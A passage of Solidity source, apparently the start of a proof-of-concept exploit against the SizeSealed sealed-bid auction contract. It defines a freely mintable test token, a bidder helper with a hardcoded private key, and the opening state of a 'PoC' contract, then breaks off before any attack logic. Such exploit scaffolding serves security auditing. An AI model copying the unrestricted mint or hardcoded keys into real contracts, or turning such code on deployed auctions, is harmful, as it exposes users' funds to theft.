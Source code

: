     pragma solidity =0.8.17;
    pragma experimental ABIEncoderV2;
    
    import {SizeSealed} from "SizeSealed.sol";
    import {ISizeSealed} from "interfaces/ISizeSealed.sol";
    import {ECCMath} from "util/ECCMath.sol";
    
    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";
    
    contract MintableERC20 is ERC20
    {
        constructor() ERC20("", "") {
    
        }
    
        function mint(address account, uint256 amount) public {
            _mint(account, amount);
        }
    }
    
    contract ExternalBidder
    {
        uint256 constant privateKey = uint256(0xabcdabcd); 
        function createBid(ERC20 quoteToken, SizeSealed sizeSealed, uint256 auctionId, uint128 quoteAmount, uint256 sellerPrivateKey, bytes32 message) external returns (uint256) {
            quoteToken.approve(address(sizeSealed), quoteAmount);
    
            (, bytes32 encryptedMessage) = ECCMath.encryptMessage(ECCMath.publicKey(sellerPrivateKey), privateKey, message);
    
            return sizeSealed.bid(
                auctionId,
                quoteAmount,
                keccak256(abi.encode(message)),
                ECCMath.publicKey(privateKey),
                encryptedMessage,
                "",
                new bytes32[](0)
            );
        }
    }
    
    contract PoC
    {
        SizeSealed sizeSealed;
        MintableERC20 token1;
        MintableERC20 token2;
        ExternalBidder externalBidder;
    
        uint256 hackStartTimestamp;
    
        uint256 firstAuctionId;
        uint256 secondAuctionId;
    
        uint256 constant privateKey = uint256(0xc0de1234); 
    